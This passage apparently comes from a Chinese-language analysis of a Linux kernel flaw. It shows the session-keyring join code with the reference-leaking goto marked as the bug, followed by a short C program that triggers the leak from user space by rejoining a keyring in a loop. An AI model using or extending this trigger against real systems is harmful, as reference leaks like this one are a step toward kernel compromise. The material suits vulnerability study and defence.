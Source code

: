 ```
                       goto error2;
               `}`
       `}` else if (IS_ERR(keyring)) `{`
               ret = PTR_ERR(keyring);
               goto error2;
       `}` else if (keyring == new-&gt;session_keyring) `{`
               ret = 0;
               goto error2; //&lt;-- The bug is here, skips key_put.
       `}`
       /* we've got a keyring - now install it */
       ret = install_session_keyring_to_cred(new, keyring);
       if (ret &lt; 0)
               goto error2;
       commit_creds(new);
       mutex_unlock(&amp;key_session_mutex);
       ret = keyring-&gt;serial;
       key_put(keyring);
okay:
       return ret;
error2:
       mutex_unlock(&amp;key_session_mutex);
error:
       abort_creds(new);
       return ret;
`}`
```



        在用户空间中触发这个漏洞是非常容易的,我们可以在下列的代码段中看到:



```
/* $ gcc leak.c -o leak -lkeyutils -Wall */
/* $ ./leak */
/* $ cat /proc/keys */
#include &lt;stddef.h&gt;
#include &lt;stdio.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;keyutils.h&gt;
int main(int argc, const char *argv[])
`{`
    int i = 0;
    key_serial_t serial;
    serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, "leaked-keyring");
    if (serial &lt; 0) `{`
        perror("keyctl");
        return -1;
    `}`
    if (keyctl(KEYCTL_SETPERM, serial, KEY_POS_ALL | KEY_USR_ALL) &lt; 0) `{`
        perror("keyctl");
        return -1;
    `}`
    for (i = 0; i &lt; 100; i++) `{`
        serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, "leaked-keyring");
        if (serial &lt; 0) `{`
            perror("keyctl");
            return -1;
        `}`
    `}`
    return 0;
`}`
```

